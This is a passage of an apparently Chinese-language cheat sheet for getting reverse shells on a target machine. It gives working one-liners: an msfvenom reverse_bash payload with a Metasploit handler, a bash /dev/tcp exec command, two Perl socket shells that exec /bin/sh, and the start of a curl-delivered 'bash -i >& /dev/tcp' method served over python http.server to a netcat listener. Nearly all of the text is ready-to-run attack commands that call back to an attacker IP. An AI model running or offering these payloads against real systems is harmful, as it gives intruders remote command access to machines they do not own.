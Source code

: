 ```bash
msfvenom -p cmd/unix/reverse_bash lhost=192.168.1.106 lport=9999 -f raw

msf
msf6 > use multi/handler
msf6 exploit(multi/handler) > set LPORT 9999
msf6 exploit(multi/handler) > set LHOST 192.168.1.106
msf6 exploit(multi/handler) > set payload /cmd/unix/reverse_bash
msf6 exploit(multi/handler) > run
```

**靶机**

将上述msfvenom运行后弹出的payload在靶机上执行

```bash
bash -c '0<&121-;exec 121<>/dev/tcp/192.168.1.106/9999;sh <&121 >&121 2>&121'
```

## Perl

**攻击机**

```bash
nc -lvvp 9999
```

**靶机**

```perl
perl -e 'use Socket;$i="192.168.1.106";$p=9999;socket(S,PF_INET,SOCK_STREAM, getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
#或
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.1.106:9999");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

## Curl

**攻击机**

创建一个html文件，其中写入以下语句。

```bash
bash -i >& /dev/tcp/192.168.1.106/9999 0>&1
```

开启一个监听

```bash
nc -lvvp 9999
```

新开一个终端，在html的文件目录下开启一个http服务

```python
python3 -m http.server
```
